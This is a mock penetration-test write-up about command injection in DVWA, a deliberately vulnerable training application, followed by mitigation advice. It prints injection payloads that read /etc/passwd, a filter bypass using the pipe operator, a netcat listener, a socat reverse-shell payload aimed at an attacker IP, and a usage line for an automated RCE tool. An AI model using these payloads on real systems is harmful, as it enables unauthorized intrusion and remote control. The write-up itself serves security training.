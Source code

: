 # Command Injection Vulnerabilty and RCE in DVWA  

## Table of Contents
- [**Outline**](#section-0)
- [**Vulnerabiltiy Explanation**](#section-1)
- [ **Proof of Concept - Creating a Reverse Shell**](#section-2)
- [**Developing a Tool**](#section-3)
- [**Mitigating Command Injection Attacks**](#section-4)

## Outline {#section-0}
The goal of this write-up is to document and demonstrate various OS command injection attacks performed  against the  Damn Vulnerable Web Application (DVWA) input field. The objective of this attack was to gain unathorized access to the system as `www-data` service user.This report mocks a penetration testing report and a debriefing situation to a client.
The full mock debriefing can be found here: [Full Presentation ](https://www.youtube.com/watch?v=Phlb5Tz4sws)
## Vulnerabiltiy Explanation {#section-1}
A command injection vulnerability is a security flaw in a system that allows attackers to execute arbitrary commands on the host's operating system. This is a serious security flaw
as it allows attackers to gain unauthorized access, opening further attack vectors for the attacker. If the application/user has high privilege a compromised system could extend beyond the host system and impact the entire network or infrastructure.

| Information | Explanation                                                                      |
|-------------|----------------------------------------------------------------------------------|
| Name        | Command Injection                                                                |
| Severity    | High                                                                             |
| CVSS        | 8.4                                                                              |
| Path        | http://127.0.0.1/vulnerabilities/exec/



The base CVSS was calculated upon the following metrics.  

| Base Metrics               | Explanations                                                                                             |
|----------------------------|----------------------------------------------------------------------------------------------------------|
| Attack Vector (AV)         | Network(N) The vulnerability can be exploited remotely over a network connection.                        |
| Attack Complexity (AC)     | Low (L) The vulnerability is straightforward and requires minimal or no special knowledge.               |
| Privilege Required (PR)    | Low (L) The attack requires some privilege. The user has to login to DVWA webpage to conduct the exploit |
| User Intercation (UI)      | None (N) The vulnerability can be exploited without any user interaction.                                |
| Scope (S)                  | Unchanged(S:U) An exploit can only affect the specific system                                            |
| Confidentiality Impact (C) | Medium (M) The vulnerability has medium impact on  the confidentiality of information.                   |
| Integrity Impact (I)       | High (H) The vulnerability has a signigicant impact on the integrity of the information                  |
| Availability Impact (A)    | High (H) The vulnerability has a significant impact on the availability of the system or resource.       |


## Proof of Concept {#section-2}
For the Proof of Concept (POC) in the `Security-Low-Level` module, the tester has manually discovered that the input field is vulnerable to command injection. By providing an IP address augmented with the `&&` operator and a preferred command, such as `/etc/passwd`, the tester  was able to view sensitive data from the system. The `&&` operator executes the first command and then proceeds to the next command, enabling the testers to execute any command.
```bash
127.0.0.1 && cat /etc/passwd 
``` 
![](/assets/cinject/exposed.gif)

The tester has also further discovered that the input field is vulnerable to other operators, such as `;`, `|`, `&` and `||`. This vulnerability exists primarily due to lack of input validation and sanitization. It can be seen from the source code that there is zero meaures to validate or sanitize user input. 
  ![](/assets/cinject/low.png)

For the `Security-Medium-Level` module, after some trial and error, the tester figured out that the input field was still vulnerable to the pip operator `|` and led to the same result as the above. There were some sanitization but was not extensive with the various operators, leaving the application largly vulnerable.
![](/assets/cinject/medium.png)


After some more trial and error with the `Security-High-Level` module, the tester has discovered that the `|` pipe operator was still vulnerable. Upon closer inspection of the source code, the tester identified a minor mistake in the sanitization of user input. Instead of replacing the pipe operator `|` with a blank string as intended , the developer mistakenly added a blank space within the operator `'| '`, which does not exactly target the pip operator as intended. Thus the code resulted in inadequate sanitization of user input.
![](/assets/cinject/High.png)


## Establishing a Reverse Shell {#section-2}
To take steps further, the tester has made use of `socat`, a popular networking tool, to create a reverse TCP connection back to the testing machine establishing a reverse shell.  First the tester created a socat listener on the attacking machine and executed a socat reverse shell in the input field using the following commands.
```bash
nc -nlvp 1337
``` 
```bash
127.0.0.1|socat tcp-connect:Attacker_IP:1337 exec:bash
``` 
![](/assets/cinject/reverseShell.gif)

The tester was granted a full command-line interface shell, offering complete control over the compromised system. This provided the ability to execute commands and easily navigate the file system, opening up possibilities for potential privilege escalation and lateral movement within the internal network.

Initially, attempts to establish a reverse shell using `bash` and `netcat` were unsuccessful. However, through further trial and error using different networking tools such as `socat`, a successful reverse shell was achieved. This highlights the importance of persistence, experimentation, and utilizing a variety of tools during a penetration test.


## Developing a Python Tool {#section-3}
To streamline and automate the process, the tester has developed a Python script that scans for command injection vulnerabilities and, upon successful identification, proceeds to execute a Remote Code Execution (RCE). This approach simplifies the task and enhances efficiency in identifying and leveraging potential security weaknesses.
The script can be found here [Kwang Command Injection RCE Tool](https://github.com/Kwangyun/Web-Automation-Tools/blob/main/CInjectionRCE.py) \
![](/assets/cinject/myScript.gif)
The tool can be used as the following with `-u`, `-p` reverse shell port and `-i` the revershell IP
```bash
python CInjectionRCE.py -u http://127.0.0.1/vulnerabilities/exec/ -p 1234 -i 192.168.45.193
``` 

## Mitigating Command Injection Attacks {#section-4}

### User Input Validation
User Input Validation involves verifying whether a user's input satisfies the conditions established by the developer. There are two primary approaches to input validation: the Blacklist-based approach and the Whitelist-based approach.  
#### Blacklist-based approach
The Blacklist-based approach entails checking whether the user input contains any characters present in a predefined blacklist. However, this method is susceptible to human error, as exemplified by the `Security-High-Level` module, and is therefore not recommended. The following are some functions corresponding to each language that are vulnerable to command injection. 
#### Whitelist-based approch
In contrast, the Whitelist-based approach checks input values against a predefined list of permitted values. In this approach, the application ensures that the input matches safe and expected values. For example, in this application, the developers could have verified that the user input is an alphanumeric string in the form of an IP address, consisting of four octets, without any additional syntax or whitespace.

## User Input Sanitization
Contrary to user input validation, user input sanitization  modifies or removes potentially harmful elements from the input data. The objective of input sanitization is to enhance the security and integrity of the application by neutralizing or eliminating any characters or patterns that could be exploited. Sanitization methods include techniques such as escaping, filtering and whitelisting. 
Reference: [Grootboan Security](https://security.grootboan.com/)\
            [PortSwigger](https://portswigger.net/web-security/os-command-injection)